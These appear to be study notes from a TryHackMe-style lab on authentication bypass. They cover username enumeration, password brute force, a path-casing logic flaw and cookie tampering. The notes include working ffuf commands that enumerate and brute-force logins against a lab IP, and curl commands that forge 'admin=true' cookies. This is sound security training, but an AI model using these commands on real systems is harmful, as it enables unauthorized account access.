

## Username Enumeration

Username enumeration is a technique used to identify valid usernames on a system or application. It often involves exploiting error messages or behavioral differences in the system's response to valid and invalid usernames. 



We can enumerate user's using above error message.

```shell
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <http://10.10.84.98/customers/signup> -mr "username already exists"
```

| Tag   | Explanation                                       |
| ----- | ------------------------------------------------- |
| `-w`  | wordlist file.                                    |
| `-X`  | Specifies method. (eg: POST)                      |
| `-d`  | Specifies the data that is going to be sent       |
| `-H`  | Used for adding additional headers to the request |
| `-u`  | URL                                               |
| `-mr` | match text from response.                         |

We can bruteforce password also.

```bash
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <http://10.10.84.98/customers/login> -fc 200
```
## Logic Flow

An Authentication logic flaw happens when a adversary bypasses the authentication logic due to certain flaws in it’s implementation.

**Example** : 

```php
if( url.substr(0,6) === '/admin') {  
# Code to check user is an admin  
} else {  
# View Page  
}
```

Because the above PHP code example uses three equals signs `===`, it’s looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting **/adMin** will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

## Cookie Tampering

attacker alters the contents of a cookie to gain unauthorized access to a user's account or to manipulate their session.

```
curl -H “Cookie: logged_in=true; admin=false” [http://10.10.84.98/cookie-test](http://10.10.84.98/cookie-test) 
```
logged_in is set true and admin is set to false resulting in a user login

```
curl -H “Cookie: logged_in=true; admin=true” [http://10.10.84.98/cookie-test](http://10.10.84.98/cookie-test)
```
logged_in is set to true and admin is set to true resulting in a admin login

**Hashing** :  Cookies sometimes contain long strings of seemingly random characters, known as hashes. These hashes are an irreversible representation of the original text.


**Encoding** 

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but the encoding is reversible.

> If encoding is reversible, what is point in cookie encoding ?
> Encoding transforms binary data into human-readable text, facilitating safe transmission over mediums limited to plain text ASCII characters.

